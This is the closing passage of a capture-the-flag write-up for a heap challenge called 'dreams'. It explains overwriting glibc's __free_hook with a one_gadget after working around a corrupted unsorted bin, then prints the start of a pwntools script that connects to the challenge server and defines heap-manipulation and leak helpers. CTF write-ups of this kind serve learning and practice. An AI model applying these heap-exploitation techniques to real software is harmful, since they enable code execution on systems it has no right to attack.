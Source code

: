 This would setup the last write-what-where and drop our onegadget into the
`__free_hook`.  BUT NO.

So what was wrong with this picture?  Well, if I do a malloc and all of the
tcache and fastbins are empty, then it's going to check the unsorted bins.
But if you ran `bins` after my glibc leak, you'd see the unsorted bins were
labelled `corrupted`.  I started to panic there wasn't time to figure out how
to make my fake chunk more real, only 30 minutes left and I had to get home
ASAP too.

But then it struck me,  if the tcache isn't empty, there's no problem, so
let's just malloc those WWW chunks BEFORE we free the fake one.

The rest was history, 24 minutes left in the CTF and I cracked a proper heap
problem!

Here's the script including the utilities:

```python  
from pwn import *

elf=ELF("./dreams")  
libc = ELF("./libc.so.6")

#TMUX mode (not confident)  
#context.terminal = ['tmux', 'splitw', '-h']  
#p=gdb.debug("./dreams")#, gdbscript=gs)

#LOCAL MODE (more confident)  
#p=process("./dreams")

#REMOTE MORE (let's get this)  
p=remote("challs.actf.co",31227)

def malloc(idx, pay1, pay2):  
   global p  
   r1 = p.sendlineafter(b"> ", "1")  
   r2 = p.sendlineafter(b"keep this dream? ",str(idx))  
   r3 = p.sendlineafter(b"yy))? ",pay1)  
   r4 = p.sendlineafter(b"you dream about? ", pay2)  
   return r1 +r2+r3+r4

def free(idx):  
   global p  
   r1 = p.sendlineafter(b"> ", "2")  
   r2 = p.sendlineafter(b"trading in?",str(idx))  
   return r1 +r2

def hack(idx, payload):  
   global p  
   r1 = p.sendlineafter(b"> ", "3")  
   r2 = p.sendlineafter(b"you trouble?",str(idx))  
   r3 = p.sendlineafter(b"New date:",payload)  
   return r1 +r2+r3

def heapleak(idx):  
   global p  
   r1 = p.sendlineafter(b"> ", "3")  
   r2 = p.sendlineafter(b"you trouble?", str(idx))  
   r3 = p.recvuntil(b"you that ")  
   leakraw = p.recvuntil(b"\n")[:-1]  
   theleak = u64(leakraw + b"\x00"*(8-len(leakraw)))  
   p.sendlineafter(b"New date:", b"JUNK")  
   return theleak

malloc(0, "junk1", "junk2")  
```